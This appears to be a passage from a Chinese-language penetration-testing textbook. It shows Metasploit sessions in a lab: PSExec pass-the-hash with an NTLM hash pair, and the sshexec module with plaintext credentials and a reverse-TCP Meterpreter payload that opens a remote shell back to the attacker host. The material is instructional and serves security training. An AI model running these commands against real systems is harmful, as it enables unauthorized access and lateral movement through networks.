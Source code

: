 ```
msf exploit(psexec) > **set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c**
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > **exploit**
--*snip*--
[*] Meterpreter session 7 opened (192.168.20.9:4444 -> 192.168.20.10:1233) at 2015-08-14 14:17:47 -0400
```

我们再次能够使用 PSExec 获取 Meterpreter 会话。即使不知道明文密码，仅凭密码哈希也足以通过 PSExec 获得访问其他系统的权限。

### SSHExec

就像 Windows 的 PSExec 一样，如果我们拥有一组有效的凭据，SSHExec 可以帮助我们在环境的 Linux 系统中移动，这些凭据可能在环境的其他地方也能使用。示例 13-24 中展示了 Metasploit 模块 *multi/ssh/sshexec* 及其选项。

示例 13-24. 使用 SSHExec

```
msf > **use exploit/multi/ssh/sshexec**
msf exploit(sshexec) > **show options**

Module options (exploit/multi/ssh/sshexec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       The password to authenticate with.
   RHOST                      yes       The target address
   RPORT     22               yes       The target port
   USERNAME  root             yes       The user to authenticate as.
--*snip*--
msf exploit(sshexec) > **set RHOST 192.168.20.11**
RHOST => 192.168.20.11
msf exploit(sshexec) > **set USERNAME georgia**❶
USERNAME => georgia
msf exploit(sshexec) > **set PASSWORD password**❷
PASSWORD => password
msf exploit(sshexec) > **show payloads**
--*snip*--
linux/x86/meterpreter/reverse_tcp    normal  Linux Meterpreter, Reverse TCP Stager
--*snip*--
msf exploit(sshexec) > **set payload linux/x86/meterpreter/reverse_tcp**
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(sshexec) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf exploit(sshexec) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
--*snip*--
[*] Meterpreter session 10 opened (192.168.20.9:4444 -> 192.168.20.11:36154) at 2015-03-25 13:43:26 -0400
meterpreter > **getuid**
Server username: uid=1000, gid=1000, euid=1000, egid=1000, suid=1000, sgid=1000
meterpreter > shell
Process 21880 created.
Channel 1 created.
**whoami**
georgia
```
